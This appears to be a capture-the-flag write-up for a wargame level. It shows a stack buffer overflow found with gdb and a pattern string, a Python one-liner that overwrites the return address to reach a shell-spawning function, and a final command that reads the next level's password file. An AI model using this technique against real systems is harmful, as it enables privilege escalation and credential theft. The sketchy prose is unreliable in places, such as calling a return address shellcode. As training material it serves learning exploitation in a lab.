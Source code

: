 First we start by looking the binary file using gdb

We can see that we must go to thee function run

lets start simple just by a basic pattern overflow

We will use the pattern :
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

When executed in gdb we have:
```
(gdb) r
Starting program: /home/user/level1/level1 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x74747474 in ?? ()
(gdb) x/s $esp
0xbffff730:      "uuuuvvvvwwwwxxxxyyyyzzzz"
```
Here we can see that we have we have un error in the at the end of the stack (esp)

So now we will launch the program the same way but this time we will remove "uuuuvvvvwwwwxxxxyyyyzzzz" + 4 bytes and add a 4 bytes shellcode instead(to acess the run function)

But When I do:
```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' | ./level1
```
I have :
```
Good... Wait what?
Segmentation fault (core dumped)
```
Here we can see that it enter the run function but we cant use the shell this is because the closed is closed at the end of the program

Now we will put it in a file :
```
python -c 'print "aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssss" + "\x44\x84\x04\x08"' > /tmp/test
```
and 
```
cat /tmp/test - | ./level1
Good... Wait what?
whoami
level2
```
(cat -) keep the stdin open

Since the level1 file belongs to level2 we can now:
cat /home/user/level2/.pass
